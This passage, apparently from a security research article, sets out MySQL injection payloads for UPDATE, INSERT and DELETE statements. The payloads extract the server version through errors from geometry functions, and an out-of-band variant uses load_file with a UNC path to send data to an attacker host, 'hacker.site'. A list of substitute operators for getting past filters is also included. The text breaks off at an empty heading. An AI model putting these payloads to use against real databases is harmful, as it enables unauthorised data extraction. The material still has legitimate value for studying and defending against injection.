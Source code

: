 

    
    <code>UPDATE users SET password = 'osanda'*multipoint((select*from(select name_const(version(),1))x))*'' WHERE id='16' ;
    
    UPDATE users SET password = 'osanda' WHERE id='16'*polygon((select*from(select name_const(version(),1))x))*'' ;
    </code>




## Insert Statement



    
    <code>INSERT INTO users VALUES (17,'james', 'bond'*polygon((select*from(select name_const(version(),1))x))*'');
    </code>




## Delete Statement



    
    <code>DELETE FROM users WHERE id='17'*polygon((select*from(select name_const(version(),1))x))*'';
    </code>


Instead of ‘*’ you can use ||, or, |, and, &&, &, >>, <<, ^, xor, <=, <, ,>, >=, mul, /, div, -, +, %, mod.


## Out-of-Band (OOB) Injections


You can check my previous research which I have described in detail about MySQL OOB techniques under Windows. The same methods can be applied in ‘INSERT’, ‘UPDATE’ and ‘DELETE’ statements.


## Update Statement



    
    <code>UPDATE users SET username = 'osanda'<=>load_file(concat('\\\\',version(),'.hacker.siste\\a.txt')) WHERE id='15';
    
    UPDATE users SET username = 'osanda' WHERE id='15'*load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
    </code>




## Insert Statement


